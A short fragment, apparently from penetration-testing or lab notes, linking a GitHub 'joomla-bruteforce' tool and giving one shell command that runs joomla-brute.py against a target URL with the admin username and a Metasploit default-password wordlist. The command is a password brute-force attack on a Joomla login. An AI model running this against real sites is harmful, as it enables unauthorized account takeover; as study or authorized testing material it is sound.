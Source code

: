 https://github.com/ajnik/joomla-bruteforce

```shell-session
python3 joomla-brute.py -u http://$url -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

